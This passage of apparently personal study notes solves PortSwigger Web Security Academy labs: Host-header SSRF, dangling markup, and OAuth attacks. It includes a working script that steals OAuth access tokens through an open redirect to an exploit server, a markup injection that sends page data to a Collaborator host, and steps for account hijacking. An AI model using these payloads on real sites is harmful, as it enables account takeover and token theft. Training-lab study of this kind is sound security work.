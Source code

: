 ### 5. SSRF
```
GET https://0a44007e03fb1d0cc0068900005000d1.web-security-academy.net HTTP/1.1
Host: 192.168.0.170
```

### 6. Dangling markup
```
Host: 0a42005f03d221bec0c45997001600ce.web-security-academy.net:'<a href="http://burp-collaborator.com?
```
>https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection
"

# OAuth authentication  
## Approach  
Arises at Sign-in page. The main request to play with is ```/auth?client_id=...```  
![image](https://user-images.githubusercontent.com/58632878/224734816-92aff8a5-7441-4768-826a-d519bb538e79.png)  
  
![image](https://user-images.githubusercontent.com/58632878/224735047-c3025f22-cccc-41ae-bcbf-02f6de69ac82.png)  


## Labs
### 1. Authentication bypass via OAuth implicit flow
>Intercept the whole process of OAuth authentication and observe /authenticate POST request that contains email and username. Change these parameters to carlos'.

### 2. Forced OAuth profile linking
>Intercept the whole process of OAuth authentication and observe /oauth-linking request with code. This request is without state parameter, so Generate CSRF PoC and drop the request. Send it to victim and login via OAuth.

### 3. OAuth account hijacking via redirect_uri
>Intercept the whole process of OAuth authentication and observe /auth?client_id=xxx&redirect_uri=xxx&response_type=xxx&scope=xxx, change redirect_uri to your collaborator server and Generate CSRF PoC, drop the request. Send it to victim and find out his /oauth-callback?code.

### 4. Stealing OAuth access tokens via an open redirect
>4.1 Same as the previous one observe ```/auth?client_id=xxx&redirect_uri=xxx&response_type=xxx&scope=xxx```.  
>4.2 On home page open any post and at the bottom observe "Next post" button. It is open redirect.  
>4.3 Write the next URL:  
>. . . ```redirect_uri=https://xxx.web-security-academy.net/oauth-callback/../../post/next?path=https://exploit-xxx.exploit-server.net/exploit/``` . . .  
>This will redirect us to our exploit server and send us oauth code as fragment identifier, so we need to extract this value using JS.  
>4.4 Write final payload:  
```
<script>
    if (!document.location.hash) {
        window.location = "https://oauth-xxx.web-security-academy.net/auth?client_id=np1l4fiaizdo4d6r09enk&redirect_uri=https://xxx.web-security-academy.net/oauth-callback/../../post/next?path=https://exploit-xxx.exploit-server.net/exploit/&response_type=token&nonce=-2091701200&scope=openid%20profile%20email"
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```
